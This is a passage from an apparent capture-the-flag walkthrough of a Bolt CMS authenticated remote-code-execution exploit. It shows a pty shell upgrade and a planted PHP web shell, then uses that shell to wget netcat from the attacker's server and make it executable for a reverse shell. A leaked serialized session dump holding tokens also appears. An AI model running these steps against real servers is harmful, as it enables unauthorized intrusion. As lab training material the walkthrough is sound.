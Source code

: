 
python -c 'import pty;pty.spawn("/bin/bash")'



What is the username of the user running the web server?
id

*www-data*

```
Now we have access, we can create a simple PHP shell on the server:


Enter OS command , for exit 'quit' : echo '<?php system($_GET["cmd"]);?>'>cmd.php    
";s:8:"*stack";a:0:{}s:10:"*enabled";i:1;s:17:"*shadowpassword";N;s:14:"*shadowtoken";N;s:17:"*shadowvalidity";N;s:15:"*failedlogins";i:0;s:17:"*throttleduntil";N;s:8:"*roles";a:2:{i:0;s:4:"root";i:1;s:8:"everyone";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:8:"*token";O:29:"Bolt\Storage\Entity\Authtoken":12:{s:5:"*id";s:1:"3";s:10:"*user_id";i:1;s:8:"*token";s:64:"34e3f69a6fc2261d519381fba1f6b235abc31e4c27f7df4e2559812eaadd53fc";s:7:"*salt";s:32:"d34f9accf4805f6d1eb98f5d698722af";s:11:"*lastseen";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2020-04-25 12:32:10.117842";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:5:"*ip";s:10:"172.17.0.1";s:12:"*useragent";s:22:"python-requests/2.23.0";s:11:"*validity";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2020-05-09 12:32:10.000000";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:10:"*checked";i:1587817930;}s:10:"_csrf/bolt";s:43:"Ji6slP_bySLAwmXIDIFpSa6VSGpYwnW2c-2Ik5nEcy0";s:5:"stack";a:0:{}s:18:"_csrf/user_profile";s:43:"lDGl_6zEExwY5SW63TUC0BS-v9JHoXhm9HeVpfFglDc";}s:12:"_sf2_flashes";a:0:{}s:9:"_sf2_meta";a:3:{s:1:"u";i:1587817932;s:1:"c";i:1587817929;s:1:"l";s:1:"0";}}

This can then be used to upload a netcat reverse shell (as there is no netcat on the target machine). First, we will need to create a symbolic link to netcat on our local machine to the current directory on the target. Run this command via a local terminal:


┌──(kali㉿kali)-[~/bolt/Boltcms-Auth-rce-py]
└─$ ln -s $(which nc) .
                                                                                                             
┌──(kali㉿kali)-[~/bolt/Boltcms-Auth-rce-py]
└─$ ls                 
exploit.py  ferox-http_10_10_180_232-1665339619.state  nc  README.md  requirements.txt  session.txt

A simple web server can then be started locally in order to serve the file to the target:

┌──(kali㉿kali)-[~/bolt/Boltcms-Auth-rce-py]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...



Using the PHP shell we are able to download netcat to the target via the browser:

http://erit.thm/files/cmd.php?cmd=wget%20http://10.11.81.220/nc

┌──(kali㉿kali)-[~/bolt/Boltcms-Auth-rce-py]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.138.76 - - [09/Oct/2022 14:42:33] "GET /nc HTTP/1.1" 200 -

This file is dropped in the same directory as our c.php. We make this nc executable like this:

http://erit.thm/files/cmd.php?cmd=chmod%20755%20nc

%20 is space

```